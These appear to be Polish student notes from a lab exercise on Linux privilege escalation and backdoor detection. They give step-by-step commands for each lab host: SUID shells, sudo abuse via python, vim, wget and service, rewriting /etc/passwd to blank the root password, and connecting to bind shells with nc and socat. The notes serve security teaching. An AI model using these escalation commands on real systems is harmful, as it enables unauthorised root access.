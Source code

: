 # Eskalacja Uprawień
GTFOBins (https://gtfobins.github.io)  to baza danych narzędzi systemowych na Unix/Linux, które mogą być
wykorzystane do eskalacji uprawnień, omijania zabezpieczeń lub wykonywania
nieautoryzowanych działań.

## Automated enumeration tools
`linPEAS` : https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## Ćwiczenia
Upload linPEAS:
```
Student (Kali Linux):
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
scp linpeas.sh student@192.168.100.7:/home/student
```
Run linPEAS:
```
student@backdoor-detection:
bash linpeas.sh
```
Backdoor 0 - Baseline:
```
ssh system0@192.168.100.7-p 2200 #hasło: pjatk
su #hasło: toor, podane w wiadomości po zalogowaniu
/root/solve
```
Backdoor 1 - SUID:
Przykładem popularnej techniki ukrywania root backdoora w systemie jest ukrywanie pliku
binarnego powłoki z ustawionym bitem SUID w jakimś miejscu. Pierwsza seria wyzwań
skupi się na wykrywaniu takich plików.
Przykładowy plik binarny z SUID znajduje się w katalogu domowym. Możesz uruchomić
polecenie 'ls-l', aby sprawdzić, czy bit SUID jest ustawiony (chmod u+s). Opcjonalnie
możesz uruchomić skrypt linpeas.sh, aby sprawdzić, czy podejrzany plik jest wykrywany.
```
ssh system1@192.168.100.7-p 2201
ls-l
./backdoor
/root/solve
```
Backdoor 2 – ukryty SUID:
```
ssh system2@192.168.100.7-p 2202

find / -type f -perm /6000 2>/dev/null
/usr/sbin/nothing
/root/solve
```
albo
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
albo
```
find / -perm -4000 -type f 2>/dev/null
/usr/sbin/delete
/root/solve
```
Backdoor 3 – Shell SUID:
 ```
ssh system3@192.168.100.7-p 2203
find / -type f -perm /6000 2>/dev/null
bash -p #bash bez parametru -p ignoruje SUID i cofa wyższe uprawnienia!
id
/root/solve
 ```
albo:
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
Backdoor 4 – podmieniony SUID:
```
find / -type f -perm /6000 -exec sha1sum {} \; 2>/dev/null
#uruchom tę komendę również na system0 i porównaj wyniki
/usr/lib/openssh/ssh-keysign
/root/solve
```
albo:
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
albo:
```
find / -perm -4000 -type f 2>/dev/null
cd /usr/bin
ls -ls ~ grp rwsr
chfn
/root/solve
```
Backdoor 5 – Sudo:
```
ssh system5@192.168.100.7-p 2205
sudo -l
sudo /usr/bin/python3 -c "import os;os.system('/root/solve')"
```
Backdoor 6 – GTFOBins:
```
ssh system6@192.168.100.7-p 2206
sudo -l
#https://gtfobins.github.io/gtfobins/vim/#sudo
sudo vim
:!bash
/root/solve
```
Backdoor 7 – Passwd:
```
ssh system7@192.168.100.7-p 2207
cat /etc/passwd | grep root #root nie ma hasła!
su
/root/solve
```
Backdoor 8 – All in One:
```
ssh system8@192.168.100.7-p 2208
sudo -l
cp /etc/passwd .
sed-i s/root:x/root:/ ./passwd
sudo curl file:///home/system8/passwd -o /etc/passwd
su
/root/solve
```
albo:
```
sudo -l
touch temp
chmod +x temp
echo -e '#!/bin/sh\n/bin/sh 1>&0` > temp
sudo wget --use-askpass=./temp 0
/root/solve
```
Backdoor 9 – Bind Shell:
```
ssh system9@192.168.100.7-p 2209
ss -tlpn
ps aux
socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:12345
/root/solve
```
___
## Ćwiczenia pentest
Załadowanie Nmap:
```
Student (Kali Linux):
wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz
scp nmap-x64.tar.gz student@192.168.100.7:/home/student
student@backdoor-detection:
tar zxvf nmap-x64.tar.gz
```
Skan Nmap:
```
student@backdoor-detection:
./nmap-p--n-Pn-sV-vv 192.168.200.57
```
Bind Shell:
Celem zadania jest połączenie się i detekcja tylnej furtki typu bind shell na hoście
192.168.200.57:
Zwróć uwagę, że nmap oznaczył port 8080 jako „http-proxy?” bez wykrytej wersji,
a na końcu raportu widać shell prompt wskazujący na bind shell!
```
student@backdoor-detection:
nc 192.168.200.57 8080
```
linPEAS upload 1:
```
student@backdoor-detection:
python3 -m http.server 1234

admin@192.168.200.57:
wget http://192.168.200.7/linpeas.sh
```
Flaga Roota:
Zauważ, że linPEAS wykrył możliwość uruchomienia polecenia service za pomocą
sudo! Jeżeli nie wiesz jak wykorzystać to polecenie do eskalacji uprawnień,
pamiętaj o dokumentacji na stronie GFTOBins!
https://gtfobins.github.io/gtfobins/service/#sudo

```
admin@192.168.200.57:
sudo -l
sudo service ../../bin/bash
id
cat /root/root.txt
```
Ja tut tylko zrobiłem `su`